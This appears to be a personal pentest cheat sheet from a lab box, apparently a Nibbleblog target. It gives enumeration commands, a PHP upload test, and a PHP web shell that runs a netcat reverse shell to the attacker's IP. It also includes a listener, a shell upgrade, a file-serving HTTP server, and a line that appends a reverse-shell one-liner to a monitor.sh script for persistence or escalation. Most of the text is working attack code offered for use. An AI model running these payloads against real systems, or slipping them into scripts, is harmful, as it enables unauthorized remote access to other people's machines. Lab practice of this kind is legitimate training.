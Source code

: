 #### Whatweb
To list the plugins supported:
```bash
./whatweb -l [target]
```

#### Gobuster
Enumerate crawl Gobuster:
```bash
gobuster dir -u 10.129.200.170/nibbleblog -w /usr/share/dirb/wordlists/common.txt
```

## PHP Injection
To check if there's php injection available. Upload a php file with this content:
```php
<?php system('id'); ?>
```

PHP website to create a [[Reverse Shell]] connection (use your box IP so the server targets your box):
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc USE.YOU.IP.ADD 9443 >/tmp/f"); ?>
```

Start listening for connections using netcat port 9443:
```bash
nc -lvnp 9443
```


To make the shell more easy to navigate using python pty:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Create an http server to share files with the target:
```bash
sudo python3 -m http.server 8080
```

To add a line at the end of a file:
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.203 8443 >/tmp/f' | tee -a monitor.sh
```

